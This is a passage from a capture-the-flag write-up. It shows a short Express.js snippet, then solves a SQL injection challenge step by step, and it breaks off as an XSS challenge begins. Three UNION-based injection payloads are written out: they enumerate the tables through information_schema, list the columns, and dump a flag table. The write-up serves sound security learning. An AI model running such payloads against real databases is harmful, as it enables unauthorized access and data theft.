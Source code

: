 ```javascript

app.use((req, res) => {
  res.sendFile(path.join(__dirname, "views", "404.html"));
});

app.listen(3000, () => {
  console.log(`Proxy server is running on http://localhost:3000`);
});
```

Therefore, I tried entering `a` to see the result.

![pic1](https://hackmd.io/_uploads/BJyidu5Iyg.png)

From here, we can see that the table has `5 columns`, the `database` name is `halloween_inventory`, and it contains a `table` named `inventory`. Next, I tried searching for all the `tables` in the database to check if there were any others.

`payload`
```
Gun' union select null, null, null, null, (select group_concat(table_name) from information_schema.tables where table_schema='halloween_invetory')-- -

// This payload is designed to display information containing 'Gun' and show the names of the tables in the halloween_inventory database. One important note is that the information must have exactly 5 columns.
```

![pic2](https://hackmd.io/_uploads/BJueiO5Ike.png)

From the result, we can see that there is also a flag table, and the `flag`` is likely in this table. Now, let's check how many columns are in this table.

`payload` 
```
Gun' union select null, null, null, null, (select group_concat(column_name) from information_schema.columns where table_name='flag')-- -
```

![pic3](https://hackmd.io/_uploads/H1mCi_qUkl.png)

There is one `flag` column, and now we just need to view its value.

`payload`
```
Gun' union select null, null, null, null, (select * from flag)-- -
```

![pic4](https://hackmd.io/_uploads/rySIhd9I1e.png)

## Phantom Script

This challenge provides us with a lot of information about `XSS vulnerabilities` and also includes the detail that activating a warning will trigger the `flag`. Therefore, I tried a basic `payload` and waited for a while to receive the `flag`
